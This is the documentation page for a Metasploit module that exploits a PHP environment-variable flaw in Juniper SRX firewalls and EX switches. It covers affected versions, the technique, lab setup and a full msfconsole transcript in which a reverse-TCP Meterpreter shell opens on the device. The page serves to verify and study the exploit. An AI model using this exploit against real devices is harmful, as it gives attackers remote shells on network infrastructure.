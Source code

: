 ## Vulnerable Application

This module exploits a PHP environment variable manipulation vulnerability affecting Juniper SRX firewalls
and EX switches.

Juniper Networks Junos OS affected SRX Series:

- All versions prior to 20.4R3-S8.
- 21.1 version 21.1R1 and later versions.
- 21.2 versions prior to 21.2R3-S6.
- 21.3 versions prior to 21.3R3-S5.
- 21.4 versions prior to 21.4R3-S5.
- 22.1 versions prior to 22.1R3-S3.
- 22.2 versions prior to 22.2R3-S2.
- 22.3 versions prior to 22.3R2-S2, 22.3R3.
- 22.4 versions prior to 22.4R2-S1, 22.4R3.

Juniper Networks Junos OS affected EX Series:

- All versions prior to 20.4R3-S8.
- 21.1 version 21.1R1 and later versions.
- 21.2 versions prior to 21.2R3-S6.
- 21.3 versions prior to 21.3R3-S5.
- 21.4 versions prior to 21.4R3-S4.
- 22.1 versions prior to 22.1R3-S3.
- 22.2 versions prior to 22.2R3-S1.
- 22.3 versions prior to 22.3R2-S2, 22.3R3.
- 22.4 versions prior to 22.4R2-S1, 22.4R3.

### Description

The affected Juniper devices run FreeBSD and every FreeBSD process can access their stdin
by opening `/dev/fd/0`. The exploit also makes use of two useful PHP features. The first being
`auto_prepend_file` which causes the provided file to be added using the `require` function. The second PHP
function is `allow_url_include` which allows the use of URL-aware `fopen` wrappers. By enabling
`allow_url_include`, the exploit can use any protocol wrapper with `auto_prepend_file`. The module then uses
`data://` to provide a file inline which includes the base64 encoded PHP payload.

### Setup

1. Navigate to the following URL: https://www.juniper.net/us/en/dm/download-next-gen-vsrx-firewall-trial.html
1. Setup an account and download the free trail of: `junos-vsrx3-x86-64-20.2R1.10.scsi.ova`
1. Boot
1. Log in as `root` / no password
1. Run `cli`
1. Run `configure`
1. Set password: `set system root-authentication plain-text-password`
1. Set hostname: `set system host-name (host-name)`
1. Set up the management interface: `set interfaces fxp0 unit 0 family inet dhcp-client`
1. Set up the traffic interfaces: `set interfaces ge-0/0/0 unit 0 family inet dhcp-client`
1. Set up security zones: `set security zones security-zone trust interfaces ge-0/0/0.0`
1. Validate the config: `commit check`
   - If you typo'd something, you can `rollback` here and try again
1. Commit: `commit`
1. Exit config, then exit CLI: `exit` then `exit`
1. Reboot: `reboot`
1. Log in with your new account
1. Run `cli` again
1.Get the ip address with `show interfaces terse | match fxp`

## Verification Steps

1. Start msfconsole
1. Do: `use freebsd/http/junos_phprc_auto_prepend_file`
1. Set the `RHOST`, `LHOST`
1. Run the module
1. Receive a Meterpreter session as the `nobody` user.

## Scenarios

### PHP Meterpreter junos-vsrx3-x86-64-20.2R1.10.scsi.ova

```
msf6> use freebsd/http/junos_phprc_auto_prepend_file
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > options

Module options (exploit/freebsd/http/junos_phprc_auto_prepend_file):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.247    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.77     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Junos OS SRX Firewall / EX Switch



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set rhosts 192.168.0.247
rhosts => 192.168.0.247
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set lhost 192.168.0.77
lhost => 192.168.0.77
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > run

[*] Started reverse TCP handler on 192.168.0.77:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Environment variable manipulation succeeded indicating this target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.0.247
[*] Meterpreter session 4 opened (192.168.0.77:4444 -> 192.168.0.247:58995) at 2023-09-20 16:27:04 -0400

meterpreter > getuid
Server username: nobody
meterpreter > sysinfoi
[-] Unknown command: sysinfoi
meterpreter > sysinfo
Computer    : JUNOS
OS          : FreeBSD JUNOS JNPR-11.0-20200608.0016468_buil FreeBSD JNPR-11.0-20200608.0016468_builder_stable_11 #0 r356482+0016468ed6c(stable/11): Sun Jun  7 23:59:18 PDT 2020     builder@feyrith.juniper.net:/volume/build/junos/occam/llvm-5.0/sandbox-20200605/freebsd/
Meterpreter : php/freebsd
meterpreter >
```
